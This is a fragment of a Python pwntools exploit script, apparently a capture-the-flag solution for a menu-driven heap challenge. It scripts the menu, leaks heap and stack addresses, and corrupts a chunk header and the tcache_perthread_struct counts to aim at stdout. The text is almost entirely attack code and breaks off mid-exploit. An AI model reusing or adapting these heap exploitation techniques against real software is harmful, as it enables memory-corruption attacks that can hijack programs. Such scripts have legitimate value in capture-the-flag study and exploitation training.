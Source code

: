 ```
    p.sendafter("Leave your message:",data)

def get_err(idx, name, size):
    chioce(1)
    p.sendlineafter("index of your lemon:",str(idx))
    p.sendafter("name your lemon:",name)
    p.sendlineafter("of message for you lemon: ",str(size))

def eat(idx):
    chioce(2)
    p.sendlineafter("\n",str(idx))
    try:
        p.recvuntil("eat eat eat ")
        ret =  int(p.recvline()[:-4])
        heap_addr = hex(ret)
        log.success("heap_addr : "+str(heap_addr))
        return ret
    except:
        sys.stdout.flush()
        os.execv(sys.argv[0], sys.argv)

def throw(idx):
    chioce(3)
    p.recvuntil('\n')
    p.sendline(str(idx))

def color(idx, data):
    chioce(4)
    p.sendlineafter("\n",str(idx))
    p.sendafter("\n",data)

def init(yes):
    if yes:
        p.sendlineafter("game with me?","yes")
        p.sendlineafter("your lucky number:","FFFF") 
        p.recvuntil("Wow, you get a reward now!")
        p.sendlineafter("name first:","mark")
        p.recvuntil("your reward is ")
        ret = p.recv()[0:5]
        log.success("stack_name_addr :"+str(hex(int(ret,16))))
        return int(ret,16)
    else:
        p.sendlineafter("game with me?","no")


def pwn():
    flag = init(1)
    get(0,"mark",0x240,"aaaaaaa")

    try:
        low_addr  =  str(hex(eat(0)))
        low_addr = int(low_addr[-6:-3],16)
        low_addr *= 0x10 
    except:
        sys.stdout.flush()
        os.execv(sys.argv[0], sys.argv)

    color(0,p64(0)*2 + p64(0x100000250)+"\x10"+p8(low_addr))
    throw(0)
    get(0,"hacker",0x240,p64(0x00)*4+p64(0x7000000))  # tcache_perthread_strcut
    throw(0)
    get(1,"pad1",0x50,p8(0x00)*5+p8(0x03)+p8(0x0)*2) # 3 times to stdout

```